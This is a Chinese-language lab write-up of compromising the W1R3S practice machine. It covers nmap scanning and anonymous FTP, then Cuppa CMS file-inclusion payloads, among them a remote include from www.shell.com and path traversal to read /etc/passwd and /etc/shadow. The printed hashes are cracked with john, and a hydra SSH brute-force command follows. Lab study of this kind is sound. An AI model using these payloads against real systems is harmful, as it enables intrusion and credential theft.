





# w1r3s靶机笔记

## 1.nmap扫描

```
sudo nmap -sn 本地ip   扫描，跳过端口扫描，只显示有那些主机响应
sudo nmap -sL 列表扫描，和sn差不多，允许轻量级侦察
1.对端口443的tcp，syn请求
2.icmp echo请求
3.对80的tcp，ack请求
4.默认的icmp时间戳请求
5.arp请求

如果有防火墙，就多用点后缀参数

和sudo arp-scan -l相似
同时，可以加一个--send-ip，发送时间戳请求，获取主机状态
sudo ip link set ens33 up  # 启用接口
sudo dhclient -v ens33  # 强制释放并重新获取 DHCP 租约
```

扫描出新的ip，即为目标靶机的ip地址

### 端口扫描

``` 
sudo nmap --minrate 10000 -p- 10.0.0.130 -oA scan
           最小速率  红队更慢       ip地址         全格式输出
如果不指定扫描技术，那就是-sS，一般用-sT
S是用syn的标志来探测，发送syn，只建立链接的第一步，用于快速扫描
T是用三次握手来探测，更加准确，且更容易过墙
-p- -p指定端口范围，-指定1到65535的范围，默认的只会探测常用的1000个

grep open scan.nmap | awk -F '/' '{print $1}' | paste -sd ','
                      转译字符分割  打印第一列    -s指定到一行，-d分隔符
变成了21，22，80，3306
```

```
仔细扫描tcp
sudo nmap -sT -sV -sC -O -p$ports 10.xxxxxx -oA 保存路径
tap会把变量解引用 
-sV 探测各服务版本
-sC 用默认脚本扫描
-O  操作系统版本
```

```
udp扫描
sudo nmap -sU --top-ports 20 10.0.0.130 -oA udp
默认脚本扫描
sudo nmap --script=vuln -p$ports 10.xxxxx -oA vuln
```

然后分析各个详细信息的用处

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd//因为是d，匿名登录 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees  可能有信息泄露，优先看
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.0.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|   256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
|_  256 3d:6d:d2:4b:46:e8:c9:a3:49:e0:93:56:22:2e:e3:54 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   MySQL (unauthorized)
MAC Address: 00:0C:29:C4:E0:36 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

一般情况，20m到1h发现不了，就要换成下一个

```
vuln扫描结果
PORT     STATE SERVICE
21/tcp   open  ftp  没有
|_sslv2-drown: 
22/tcp   open  ssh 没有
80/tcp   open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /wordpress/wp-login.php: Wordpress login page.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack  dos攻击，渗透测试用不了
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
3306/tcp open  mysql
|_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)
MAC Address: 00:0C:29:C4:E0:36 (VMware)
```

同时，别忘了还有可能的ipv6地址，也可以去搜搜

- 端口扫描
- 详细信息
- udp
- 漏洞脚本扫描
- 攻击面分析

## 2.ftp

```
ftp是一个文件传输用的协议
tftp 10.0.0.130 进入ftp界面，上一步扫描结果说可以匿名登陆
anonymous，密码没有
进入之后，一定记得用binary切换为二进制模式
可以使用的命令用？会显示出来
然后进入目录，用prompt把交互提示关掉
然后用mget下载文件
```

```
下载之后，用cat *.txt读文件，发现密文
cat *.txt
New FTP Server For W1R3S.inc
#
#
#
#
#
#
#
#
01ec2d8fc11c493b25029fb1f47f39ce   很显然是个md5，如果不知道，可以用hash-identifier识别
#
#
#
#
#
#
#
#
#
#
#
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==  这个是base64识别
############################################
___________.__              __      __  ______________________   _________    .__               
\__    ___/|  |__   ____   /  \    /  \/_   \______   \_____  \ /   _____/    |__| ____   ____  
  |    |   |  |  \_/ __ \  \   \/\/   / |   ||       _/ _(__  < \_____  \     |  |/    \_/ ___\ 
  |    |   |   Y  \  ___/   \        /  |   ||    |   \/       \/        \    |  |   |  \  \___ 
  |____|   |___|  /\___  >   \__/\  /   |___||____|_  /______  /_______  / /\ |__|___|  /\___  >
                \/     \/         \/                \/       \/        \/  \/         \/     \/ 

```

对于不知道的算法，可以用hash-identifier，然后MD5sum可以把字符串变成md5加密

```
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==
对它，用base64 -d解密
echo SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg== | base64 -d
It is easy, but not that easy..      
没啥用
```

```
The W1R3S.inc employee list

Naomi.W - Manager  可能有高权限，更多信息
Hector.A - IT Dept 可能有高权限，或者权限信息
Joseph.G - Web Design 可能不多
Albert.O - Web Design 可能不多
Gina.L - Inventory     库管，可能有员工信息
Rico.D - Human Resources  人力，估计有人员信息

        ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡

....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ
```

接下来看mysql

```
mysql -h 10.0.0.130 -u root -p 不知道，暂时放弃
```

## 3.web

```
打开浏览器，看到首页，注意看看它的源代码的注释
然后没用的话，就目录爆破。
sudo gobuster dir -u http://10.0.0.130 --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  用中号字典进行爆破，记一下字典的位置
```

```
/wordpress            (Status: 301) [Size: 312] [--> http://10.0.0.130/wordpress/]                                                                        
/javascript           (Status: 301) [Size: 313] [--> http://10.0.0.130/javascript/]                                                                       
/administrator        (Status: 301) [Size: 316] [--> http://10.0.0.130/administrator/]                                                                    
/server-status        (Status: 403) [Size: 298]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

其中，administrator是可以用的，访问进行下一步

这是一个cms安装的界面，要提前打报告才能进行修改



然后搜索是否有什么漏洞可以利用

用searchsploit命令搜索一下

```
searchsploit cuppa cms  1.不知道版本2.应该不多
Cuppa CMS - '/alertConfigField.php' Local/ | php/webapps/25971.txt
然后下载它
searchsploit cuppa cms -m 25971
```

发现他是一个文件包含类型的漏洞，都有成功利用的可能。

```
/alerts/alertConfigField.php (LINE: 22)  是这个文件可以被利用

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.可以识别php或者非php文件，那么说不定可以看到passwd或者shadow

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]
```

```
用法例子：
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Moreover, We could access Configuration.php source code via PHPStream
```

然后通过这个试试能不能直接用，或者试试能不能构造

直接用行不通，会不会是因为安装目录不对，咱装在administero里面呢？

```
http://10.0.0.130/administrator/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
```

发现像这样，有界面，但是无响应，说明我们找对了



url是个参数，或许需要用get来处理，而这个东西可能是post，所以得换一下

可以去翻翻源代码，上GitHub找找，发现就是用post处理，但是url默认变成了get。

### 1.burp

既然知道了，那我们就打开burp进行构造，直接把get改成post即可

### 2.curl直接命令行

```
curl http://10.0.0.130/administrator/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
curl http://t10.0.0.130/administrator/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd  

输入curl --help all | grep url
curl --help all | grep url
     --data-urlencode <data>     HTTP POST data URL encoded
 -q, --disable                   Disable .curlrc
     --disallow-username-in-url  Disallow username in URL
     --doh-url <URL>             Resolve hostnames over DoH
     --libcurl <file>            Generate libcurl code for this command line
     --url <url/file>            URL(s) to work with
     --url-query <data>          Add a URL query part                                                  
```

然后我们照猫画虎，看看能不能行

```
curl --data-urlencode 'urlConfig=../../../../../../../../../etc/passwd' http://10.0.0.130/administrator/alertConfigField.phpurlConfig=../../../../../../../../../etc/passwd
```

```
得到了w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
发现x，是以哈希的方式储存，那么去找shadow文件，看能否读取
发现w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
只有这三个用户有密码
```

然后进行破解，保存到9.hash，方便john破解，也可以给网站

```
Press 'q' or Ctrl-C to abort, almost any other key for status
www-data         (www-data)     
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
computer         (w1r3s)     
2g 0:00:00:03 DONE 2/3 (2025-08-05 09:55) 0.5089g/s 821.8p/s 822.1c/s 822.1C/s 123456..franklin
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 破解完成
```

那么下一步直接ssh链接，su换root，就可以看到flag了





## 附加：暴力破解

用hydra进行暴力破解ssh通道

```
hydra -L user.list -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.130 -t 5 五次
用户名，先自己构建一个list
结合ftp，创建                          
w1r3s
admin
root
Hector//一般是小写，为了以防万一写个大写
hector
```

等待攻击结束，时间稍微有点久


